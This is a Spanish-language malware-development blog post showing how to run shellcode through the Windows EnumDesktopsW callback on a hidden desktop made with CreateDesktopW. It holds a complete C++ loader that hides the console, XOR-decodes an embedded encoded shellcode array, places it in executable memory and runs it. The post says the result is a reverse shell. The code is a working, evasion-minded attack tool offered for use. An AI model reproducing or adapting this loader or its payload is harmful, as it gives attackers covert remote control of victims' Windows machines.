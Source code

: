 ```yaml
---
layout: post
title: Inyeccion de shellcodes via EnumDesktopsW()
author: c4rta
date: 2023-07-07
tags: [MalDev]
---
```

Te explicare como use la funcion ```EnumDesktopsW()``` para ejecutar una shellcode en un escritorio creado con ```CreateDesktopW()``` 
{:.lead}
## EnumDesktopsW

EnumDesktopsW es una funcion de la WinAPI la cual enumera todos los escritorios del usuario, cabe recalcar que solo enumera los cuales tengan acceso ```DESKTOP_ENUMERATE``` o ```GENERIC_ALL```, lo que hace por detras esta funcion es invocar multiples veces a la funcion callback del parámetro ```lpEnumFunc``` hasta que termine de enumerar todos los escritorios.

```lpEnumFunc``` es uno de los parametros que recibe ```EnumDesktopsW()```, este parametro es un puntero a la callback  ```DESKTOPENUMPROC```, su sintaxis es:

```c++
BOOL CALLBACK EnumDesktopProc(
  _In_ LPTSTR lpszDesktop,
  _In_ LPARAM lParam
);
```

### ¿Como se ejecuta la shellcode?

Basicamente hace esto:

- Se asigna un buffer de memoria mediante una función como VirtualAlloc
- Se copia la shellcode en la memoria recién asignada
- Se usa EnumDesktopsW para enumerar los escritorios y mediante una funcion callback encontrar la dirección de una función que se puede usar para ejecutar la shellcode (La direccion que regresa VirtualAlloc)

El codigo "base" para ejecutar una shellcode de esta forma tomando en cuenta la explicacion anterior, es:

```c++
HANDLE hAlloc = VirtualAlloc(NULL, sizeof(shellcode), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
memcpy(hAlloc, shellcode, sizeof(shellcode));
EnumDesktopsW(GetProcessWindowStation(),(DESKTOPENUMPROCW) hAlloc, NULL);
```

Pero nos vamos a poner experimentadores y te voy a explicar como usando ese mismo codigo de base lo converti en algo bien genial

### Explicacion

Como en los demas tutoriales, te pondre todo el codigo y te explicare que hacen las funciones y como se ejecuta la shellcode

```c++
#include <Windows.h>
#include <iostream>

unsigned char shellcode[] = {
	"\x92\x26\xed\x8a\x9e\x86\xa2\x6e\x6e\x6e\x2f\x3f\x2f\x3e"
	"\x3c\x3f\x26\x5f\xbc\x0b\x26\xe5\x3c\x0e\x26\xe5\x3c\x76"
	"\x38\x26\xe5\x3c\x4e\x23\x5f\xa7\x26\xe5\x1c\x3e\x26\x61"
	"\xd9\x24\x24\x26\x5f\xae\xc2\x52\x0f\x12\x6c\x42\x4e\x2f"
	"\xaf\xa7\x63\x2f\x6f\xaf\x8c\x83\x3c\x26\xe5\x3c\x4e\xe5"
	"\x2c\x52\x2f\x3f\x26\x6f\xbe\x08\xef\x16\x76\x65\x6c\x61"
	"\xeb\x1c\x6e\x6e\x6e\xe5\xee\xe6\x6e\x6e\x6e\x26\xeb\xae"
	"\x1a\x09\x26\x6f\xbe\xe5\x26\x76\x3e\x2a\xe5\x2e\x4e\x27"
	"\x6f\xbe\x8d\x38\x23\x5f\xa7\x26\x91\xa7\x2f\xe5\x5a\xe6"
	"\x26\x6f\xb8\x26\x5f\xae\xc2\x2f\xaf\xa7\x63\x2f\x6f\xaf"
	"\x56\x8e\x1b\x9f\x22\x6d\x22\x4a\x66\x2b\x57\xbf\x1b\xb6"
	"\x36\x2a\xe5\x2e\x4a\x27\x6f\xbe\x08\x2f\xe5\x62\x26\x2a"
	"\xe5\x2e\x72\x27\x6f\xbe\x2f\xe5\x6a\xe6\x26\x6f\xbe\x2f"
	"\x36\x2f\x36\x30\x37\x34\x2f\x36\x2f\x37\x2f\x34\x26\xed"
	"\x82\x4e\x2f\x3c\x91\x8e\x36\x2f\x37\x34\x26\xe5\x7c\x87"
	"\x25\x91\x91\x91\x33\x27\xd0\x19\x1d\x5c\x31\x5d\x5c\x6e"
	"\x6e\x2f\x38\x27\xe7\x88\x26\xef\x82\xce\x6f\x6e\x6e\x27"
	"\xe7\x8b\x27\xd2\x6c\x6e\x7f\x32\xae\xc6\x6f\x27\x2f\x3a"
	"\x27\xe7\x8a\x22\xe7\x9f\x2f\xd4\x22\x19\x48\x69\x91\xbb"
	"\x22\xe7\x84\x06\x6f\x6f\x6e\x6e\x37\x2f\xd4\x47\xee\x05"
	"\x6e\x91\xbb\x04\x64\x2f\x30\x3e\x3e\x23\x5f\xa7\x23\x5f"
	"\xae\x26\x91\xae\x26\xe7\xac\x26\x91\xae\x26\xe7\xaf\x2f"
	"\xd4\x84\x61\xb1\x8e\x91\xbb\x26\xe7\xa9\x04\x7e\x2f\x36"
	"\x22\xe7\x8c\x26\xe7\x97\x2f\xd4\xf7\xcb\x1a\x0f\x91\xbb"
	"\xeb\xae\x1a\x64\x27\x91\xa0\x1b\x8b\x86\xfd\x6e\x6e\x6e"
	"\x26\xed\x82\x7e\x26\xe7\x8c\x23\x5f\xa7\x04\x6a\x2f\x36"
	"\x26\xe7\x97\x2f\xd4\x6c\xb7\xa6\x31\x91\xbb\xed\x96\x6e"
	"\x10\x3b\x26\xed\xaa\x4e\x30\xe7\x98\x04\x2e\x2f\x37\x06"
	"\x6e\x7e\x6e\x6e\x2f\x36\x26\xe7\x9c\x26\x5f\xa7\x2f\xd4"
	"\x36\xca\x3d\x8b\x91\xbb\x26\xe7\xad\x27\xe7\xa9\x23\x5f"
	"\xa7\x27\xe7\x9e\x26\xe7\xb4\x26\xe7\x97\x2f\xd4\x6c\xb7"
	"\xa6\x31\x91\xbb\xed\x96\x6e\x13\x46\x36\x2f\x39\x37\x06"
	"\x6e\x2e\x6e\x6e\x2f\x36\x04\x6e\x34\x2f\xd4\x65\x41\x61"
	"\x5e\x91\xbb\x39\x37\x2f\xd4\x1b\x00\x23\x0f\x91\xbb\x27"
	"\x91\xa0\x87\x52\x91\x91\x91\x26\x6f\xad\x26\x47\xa8\x26"
	"\xeb\x98\x1b\xda\x2f\x91\x89\x36\x04\x6e\x37\x27\xa9\xac"
	"\x9e\xdb\xcc\x38\x91\xbb"
};

typedef BOOL(WINAPI* ShellcodeFunction)(LPCWSTR, LPARAM);

DWORD WINAPI SwitchDesktopThread(LPVOID lpParameter){
    HDESK hDesktop = static_cast<HDESK>(lpParameter);
    SetThreadDesktop(hDesktop);
    
    return 0;
}

int main(){
	HWND hWin = GetConsoleWindow();
	ShowWindow(hWin, SW_HIDE);
	
    HDESK hDesktop = CreateDesktopW(L"ShellcodeDesk", NULL, NULL, 0, GENERIC_ALL, NULL);
    if (hDesktop != NULL){
        HANDLE hThread = CreateThread(NULL, 0, SwitchDesktopThread, hDesktop, 0, NULL);
        if (hThread == NULL){
            CloseDesktop(hDesktop);
            return 1;
        }else{
        	CloseHandle(hThread);
	
	        for (int i = 0; i < sizeof(shellcode); i++){
	            shellcode[i] = (byte)(shellcode[i] ^ (byte)'\x6e');
	        }
	
	        const size_t shellcodeSize = sizeof(shellcode);
	
	        LPVOID hAlloc = VirtualAlloc(
	            NULL,
	            shellcodeSize,
	            MEM_COMMIT | MEM_RESERVE,
	            PAGE_EXECUTE_READWRITE
	        );
	
	        memcpy(hAlloc, shellcode, shellcodeSize);
	        EnumDesktopsW(GetProcessWindowStation(), (DESKTOPENUMPROCW)hAlloc, NULL);
	        CloseDesktop(hDesktop);
		}

    }
    return 0;
}
```

### Explicacion rapida

Se crea un hilo para ejecutar ```SwitchDesktopThread()```, asi que cuando se ejecute esa funcion cambiara al escritorio mediante ```SetThreadDesktop()```, ese escritorio se llama "ShellcodeDesk" creado con ```CreateDesktop()```, permitiendo que esa accion ocurra en segundo plano en ese hilo que se creo, despues se reserva memoria con ```VirtualAlloc()``` para la shellcode y se inyectara en el contexto del escritorio "ShellcodeDesk" mediante la funcion de callback ```EnumDesktopW()```, permitiento asi que el escritorio actual del usuario no este ocurriendo nada, y todo el proceso de la shellcode se este ejecutando en el escritorio "ShellcodeDesk"


### Explicacion de cada funcion

#### CreateDesktopW()

```c++
HDESK hDesktop = CreateDesktopW(L"ShellcodeDesk", NULL, NULL, 0, GENERIC_ALL, NULL);
```

Creara un nuevo escritorio llamado "ShellcodeDesk" donde se le da acceso "GENERIC_ALL" para tener control total de ese ecritorio, y ojo,
para windows los escritorios solo son objetos que representan un area virtual la cual ejecuta aplicaciones y tiene ventanas, cada escritorio
esta aislado de otro escritorio, es decir, que cada escritorio tiene sus ventanas, aplicaciones.

Como curiosidad, la creacion de escritorios esta limitada por el tamaño del heap del escritorio del sistema, el cual es de 48 MB

Y si ese escritorio se crea, osea es diferente de NULL, regresa un identificador que se guarda en ```hDesktop```, y pasara a la funcion CreateThread()

#### CreateThread()

```c++
HANDLE hThread = CreateThread(NULL, 0, SwitchDesktopThread, hDesktop, 0, NULL);
```

Ahora, cuando se hace un llamado a esta funcion lo que esta pasando es que crea un hilo en el proceso actual, y date cuenta que este hilo su tercer parametro es un puntero del nombre de la funcion que se va a ejecutar en ese hilo, osea ```SwitchDesktopThread```, tambien se le pasa ```hDesktop``` que es la variable que tiene el escritorio creado con ```CreateDesktopW()```

#### SwitchDesktopThread()

```c++
DWORD WINAPI SwitchDesktopThread(LPVOID lpParameter){
    HDESK hDesktop = static_cast<HDESK>(lpParameter);
    SetThreadDesktop(hDesktop);
    
    return 0;
}
```

Ahora con ```SwitchDesktopThread``` lo que esta haciendo es cambiar al escritorio creado con ```CreateDesktopW()``` mediante ```SetThreadDesktop()```, sin embargo este cambio lo hace asignando el escritorio creado al hilo al que pertenece o del cual se esta ejecutando, osea, el escritorio "ShellcodeDesk" que se creo con ```CreateDesktopW()``` se estaria ejecutando en el hilo creado con ```CreateThread```, por eso mismo, en uno de los parametros de ```CreateThread``` se le pasa ```hDesktop```, que es la variable que tiene el nombre de escritorio "ShellcodeDesk".

#### Ejecucion de la shellcode

Y en caso de que todo vaya bien todas las intrucciones que le siguen se estarian ejecutando en ese escritorio ("ShellcodeDesk") lo cual permite que esten aisladas del escritorio actual del usuario, y ya al final con ```EnumDesktopsW()``` se ejecuta las shellcode en el contexto del escritorio creado, osea ShellcodeDesk

#### Resultados

Llega una reverse shell por que eso es lo que hace la shellcode

![](/assets/img/enumDesktopW/1.png)

![](/assets/img/enumDesktopW/2.png)

Eso ha sido todo, gracias por leer ❤
